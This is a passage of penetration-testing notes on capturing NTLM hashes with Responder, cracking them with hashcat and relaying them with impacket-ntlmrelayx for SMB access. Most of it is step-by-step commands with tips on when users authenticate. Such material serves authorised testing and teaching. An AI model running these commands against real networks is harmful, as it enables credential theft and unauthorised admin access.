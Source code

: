 ### How to exploit

Step 1: Run Responder

```
sudo responder -I tun0 -rdwv
```

* NOTE: This tool should seriously be the first thing that you run on an engagement
  * Especially during the morning hours when users are authenticating for the first time that day
  * Lunch is also a great time
* You should theoretically receive a hash once an even occurs

Step 2: Wait

Step 3: Obtain hash and proceed to Pass-The-Hash or take offline and crack!

Step 4: Password Cracking

```
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```

* Run these on your host for fast speeds

Finding Hashcat format:

```
hashcat --help | grep NTLM
```

## SMB Relay

* Instead of cracking hashes gathered by responder, we can relay those hashes to specific machines and potentially gain access

### Requirements

* <mark style="color:yellow;">SMB signing MUST BE DISABLED on the target</mark>
* Relayed user credentials must be admin on machine

### How to Exploit

Step 1: Make sure that <mark style="color:yellow;">SMB and HTTP servers are set to OFF</mark>

Step 2: Run <mark style="color:yellow;">Responder</mark>

```
sudo responder -I tun0 -rdwv
```

* You should see that SMB and HTTP are off

Step 3: Set up your relay -- <mark style="color:yellow;">impacket-ntlmrelayx</mark>

```
impacket-ntlmrelayx -tf targets.txt -smb2support
```

Step 4: Wait for an event to occur
